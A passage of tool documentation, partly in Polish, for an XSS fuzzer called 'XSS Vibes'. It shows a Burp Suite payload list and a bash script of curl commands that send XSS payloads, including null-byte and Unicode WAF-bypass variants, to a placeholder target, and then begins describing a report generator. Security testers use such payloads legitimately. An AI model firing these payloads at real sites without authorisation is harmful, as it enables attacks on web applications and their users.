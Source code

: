 ```json
  ]
}
```

#### Burp Suite Format:
```txt
# Burp Suite Payload List
# Generated by XSS Vibes AI DOM Fuzzer

"><script>alert(1)</script>
"><scr\u0000ipt>window["ale"+"rt"](1)</scr\u0000ipt>
\u202e<script>alert(1)</script>\u202d
useEffect(() => alert(1), [])
shadowRoot.innerHTML = '<script>alert(1)</script>'
```

#### cURL Commands:
```bash
#!/bin/bash
# XSS Vibes - cURL Test Commands

# Test 1: eval_contexts
curl -X POST 'TARGET_URL' -d 'param="><script>alert(1)</script>'

# Test 2: eval_contexts (WAF bypass)
curl -X POST 'TARGET_URL' -d 'param="><scr\u0000ipt>window[\"ale\"+\"rt\"](1)</scr\u0000ipt>'

# Test 3: eval_contexts (Unicode bypass)
curl -X POST 'TARGET_URL' -d 'param=\u202e<script>alert(1)</script>\u202d'
```

---

## 📊 AI REPORT GENERATOR

### 📁 Lokalizacja
```
scripts/report_gen.py
```

### 🎯 Cel
Generowanie profesjonalnych raportów HTML z wyników testowania XSS:
- Comprehensive reports - pełne raporty ze wszystkich testów
- Template reports - raporty per konkretny template
- Payload reports - analiza per konkretny payload
- Interactive charts i professional layout

### 🔧 Funkcje

#### 1. **Report Types**
```python
report_types = {
    "comprehensive": "Pełny raport ze wszystkich testów z wykresami",
    "template": "Raport skupiony na konkretnym template", 
    "payload": "Analiza konkretnego payload z wynikami"
}
```
